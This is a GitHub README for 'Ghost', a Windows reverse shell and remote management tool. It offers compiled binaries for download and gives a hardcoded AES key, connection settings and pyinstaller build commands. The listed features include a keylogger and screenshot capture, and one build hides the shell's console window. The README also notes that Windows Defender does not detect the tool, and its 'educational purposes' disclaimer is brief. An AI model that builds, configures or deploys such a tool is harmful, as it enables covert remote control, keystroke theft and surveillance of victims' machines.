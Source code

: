 # Ghost
Reverse shell and management console for Windows. Communication between the reverse shell and the management console is AES encrypted. Reverse shell and management console support tcp and udp protocols. 

<dl>
  <dt>Some of its features are
  <dd>
  <dd>-Sends commands to cmd and powershell,
  <dd>-Creates or extracts zip files
  <dd>-Downloads files from the Internet,
  <dd>-Supports file upload and download,
  <dd>-Creates keylogger program,
  <dd>-Takes a screenshot
  <dd>-Communication between server and client is AES encrypted.
</dl>

The Compiled Version of the Program Can be Downloaded from the Links Below.
---
<dl>
  <dt> 1) Compiled without using the "--noconsole" command 
  <dd>
  <dd> ghost_v4_showconsole.rar --> zip password: "ghost_v4"
  <dd> Link = https://drive.google.com/file/d/1d_8ghw7vlULQ26KI1hbJaTmT_d3QQY8W/view?usp=sharing
</dl>

<dl>
  <dt> 2) Compiled using the "--noconsole" command
  <dd> 
  <dd> ghost_v4_noconsole.rar --> zip password: "ghost_v4"
  <dd> Link = https://drive.google.com/file/d/1Oxeva5fwwTeRRJLv_7o12Lby4AXeFnEq/view?usp=sharing
</dl>



Requirements
---
Required libraries:  pycryptodome , requests, pyautogui, pyinstaller

```
pip install pycryptodome
pip install  requests
pip install pyautogui
pip install pyinstaller
```


"pyinstaller" will be used to make the code one piece executable


Settings
--------------

**(1) master.py**

![master](https://user-images.githubusercontent.com/71177413/162610379-f8baa1f8-050a-4923-90fe-287267a8e994.JPG)

```
    CRTYPTO_KEY     =  b'A45iPxLo908RYe3Wq034TueWvCxz3618'      # 32 bit(s) AES key  (changeable) [The value for "slave.py" should be the same.]
    CRTYPTO_NUMBER  =  71                                       # Second key to strengthen encryption. It must be between 1 and 128. (changeable) [The value for "slave.py" should be the same.]
    SOCKET_PROTOCOL = "UDP"                                     # "TCP" or "UDP" (changeable)
    SOCKET_HOST     = "0.0.0.0"                                 # This value in "master.py" should not be changed in order for "slave.py" to be connected.
    SOCKET_PORT     = 9292                                      # "slave.py" must be the same port. (changeable)
    SYSTEM_ENCODE   = "cp857"                                   # TURKISH CHARACTER SET (changeable; example utf-8, latin1 etc.)
    SYSTEM_DEFAULTTIMEOUT = 0                                   # No timeout. It is recommended to set the value to "0" for master.py.
``` 
    
   
  **(2) slave.py**
   
   ![slave](https://user-images.githubusercontent.com/71177413/162610823-5da57505-edf6-44c1-b7a9-74a3062beab6.JPG)
   
```
    CRTYPTO_KEY     =  b'A45iPxLo908RYe3Wq034TueWvCxz3618'      # 32 bit(s) AES key  (changeable) [The value for "slave.py" should be the same.]
    CRTYPTO_NUMBER  =  71                                       # Second key to strengthen encryption. It must be between 1 and 128. (changeable) [The value for "slave.py" should be the same.]
    SOCKET_PROTOCOL = "UDP"                                     # "TCP" or "UDP" (changeable)
    SOCKET_HOST     = "127.0.0.1"                               # The IP to which "slave.py" will be connected
    SOCKET_PORT     = 9292                                      # "master.py" must be the same port. (changeable)
    SYSTEM_ENCODE   = "cp857"                                   # TURKISH CHARACTER SET (changeable; example utf-8, latin1 etc.)
    SYSTEM_DEFAULTTIMEOUT = 300                                 # 5 minutes; It is recommended to be non-zero for "UDP". When the connection is lost or an error occurs, "slave.py" tries to connect again after this period. At the same time, if it does not receive a command from "master.py" within this time, it tries to connect again. Therefore, setting a very low value is also not appropriate.
```

<dl>
  <dt>
  <dt> Except for encryption, these values can be changed with initial parameters if desired.
  <dd>
  <dd> master.exe -h      ==> Shows help parameters.
  <dd> slave -h           ==> Not shows help parameters because of the parameter ("--noconsole") used while compiling
</dl>
  
<dl>
  <dt>
  <dt> Example:
  <dd>
  <dd> master -udp -c:cp857  -t:00 8080             ==> (8080 port)
  <dd> master -tcp -c:utf-8  -t:600 9393            ==> (9393 port)
  <dd> master 7272                                  ==> (7272 port
  <dd> slave  -udp -c:cp857  -t:600 1.1.1.1:8080    ==> (1.1.1.1 ip - 8080 port
  <dd> slave  -tcp -c:utf-8  -t:00  1.1.1.1:9393    ==> (1.1.1.1 ip - 9393 por
  <dd> slave 3.3.3.3:7272                           ==> (3.3.3.3 ip - 7272 port)
</dl>

![1](https://user-images.githubusercontent.com/71177413/162611487-baabc2aa-2c37-4a9b-b178-74dbb8d08d75.JPG)

![2](https://user-images.githubusercontent.com/71177413/162611490-e24ad077-5b4d-4a33-8ac9-c72f24d91829.JPG)


Compilation
------------

(show console for slave.py)

```
pyinstaller --onefile --icon=master.ico master.py

pyinstaller --onefile --icon=slave.ico slave.py

```
or (hide console for slave.py)

```
pyinstaller --onefile --icon=master.ico master.py

pyinstaller --onefile --noconsole --icon=slave.ico slave.py
```

Commands for Master.py
-----------------------

`commands      ==> Shows commands very briefly.`

![3](https://user-images.githubusercontent.com/71177413/162611768-9e3e7ad6-298a-4c7d-b907-320f2696003a.JPG)


`help          ==> Shows commands in detail.`

![4](https://user-images.githubusercontent.com/71177413/162611775-ed01e4f7-4dfb-4aa0-a6cb-9b7877528e1f.JPG)


Notes
-------
First, master.py should be run, then slave.py should be run. Otherwise, slave.py will wait for the timeout and try to connect again.



Some Images of the Working of the Program
------------------------------------

[1] 

![5](https://user-images.githubusercontent.com/71177413/162612140-749b42ed-b450-4a60-a43d-00e3f2eea801.JPG)


[2]

![6](https://user-images.githubusercontent.com/71177413/162612197-5cf920c1-8d3e-4647-99b5-a45b408cf275.JPG)


[3]

![11](https://user-images.githubusercontent.com/71177413/162612212-a7019220-d3db-4024-9d3a-f548e902b32b.JPG)


[4]

![7](https://user-images.githubusercontent.com/71177413/162612297-5da94b20-8b7f-40ec-92e4-1733e6a58059.JPG)


[5]

![8](https://user-images.githubusercontent.com/71177413/162612229-110697a1-b587-4bc2-ada1-1742538f4fb1.JPG)


[6]

![10](https://user-images.githubusercontent.com/71177413/162612315-b7bf2aa0-f349-4e85-b22c-aab987ca43d1.JPG)


[7]

![13](https://user-images.githubusercontent.com/71177413/162613543-95a90c3f-f4c6-434b-b05e-a91769ee9096.JPG)


[8]

![14](https://user-images.githubusercontent.com/71177413/162613551-a6027fef-7673-46a5-933f-251f4f26efcb.JPG)


Windows Defender
-----------------
As of 10/04/2022, It is not caught by the Windows Defender program. Over time this will change.


Legal Warning
------------------
Run your tests on virtual machines. The responsibility for illegal use belongs to the user. Shared for educational purposes.

